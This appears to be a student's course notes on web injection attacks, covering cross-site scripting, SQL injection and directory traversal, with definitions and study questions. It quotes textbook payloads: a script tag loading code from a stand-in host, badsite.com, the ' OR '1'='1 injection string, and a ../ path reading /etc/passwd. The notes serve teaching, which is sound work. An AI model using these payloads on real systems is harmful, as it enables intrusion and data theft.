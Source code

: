 **Section III Takeaways:** Attackers use fake websites, disguised malicious code, tracking bugs, clickjacking, and drive-by downloads to compromise users who visit or interact with malicious web pages.


## IV. Injection Attacks

Injecting malicious code or commands into data inputs that are then processed by a web application or server.

### A. Cross-Site Scripting (XSS)

*   **Definition:** Tricking a web application into **executing malicious script code (usually JavaScript)** provided in user input fields, which then runs in the context of *another user's* browser.
*   Mechanism: Exploits the trust a user's browser has in a website. Scripts are treated like legitimate page content.
*   Analogy: Similar concept to buffer overflows where data overflows into executable space, here script data is executed by the browser.
*   Example (from slide 15): A comment field allowing HTML, where an attacker inputs:
    ```html
    Cool<br>story.<br>KCTVBigFan<script src=http://badsite.com/xss.js></script>
    ```
    This script will execute for any user viewing the comment.
*   *Potential Exam Question:* Define Cross-Site Scripting (XSS) and explain how improperly handled user input can lead to this vulnerability.

### B. SQL Injection (SQLi)

*   **Definition:** Injecting malicious **SQL (Structured Query Language) code** into data inputs that are passed to a backend database, allowing the attacker to manipulate the database.
*   Mechanism: Exploits applications that construct SQL queries by concatenating user input directly into the query string.
*   Example (from slide 16):
    *   Original Intended Query structure:
        ```sql
        QUERY = "SELECT * FROM trans WHERE acct = '" + acctNum + " '; "
        ```
    *   User Input (`acctNum`): `12345` -> Normal query.
    *   Malicious User Input (`acctNum`): `2468' OR '1'='1`
    *   Resulting Malicious Query:
        ```sql
        QUERY = "SELECT * FROM trans WHERE acct = '2468' OR '1'='1'; "
        ```
        The `OR '1'='1'` condition is always true, potentially dumping all transaction records.
*   *Thought Question:* Beyond data theft, what other malicious actions can be performed via SQL Injection (e.g., modifying data, dropping tables, executing commands)?

### C. Dot-Dot-Slash (Directory Traversal)

*   **Definition:** An attack technique using `../` sequences in file path inputs to **navigate outside the intended web root directory** and access restricted files or directories on the server.
*   Mechanism: Exploits lack of input sanitization for file/path parameters, often in URLs.
*   *Real-world example:* Requesting `http://example.com/getUserFile?file=../../../../etc/passwd` to try and read the system password file.
*   Note: Can be combined with other attacks like XSS.
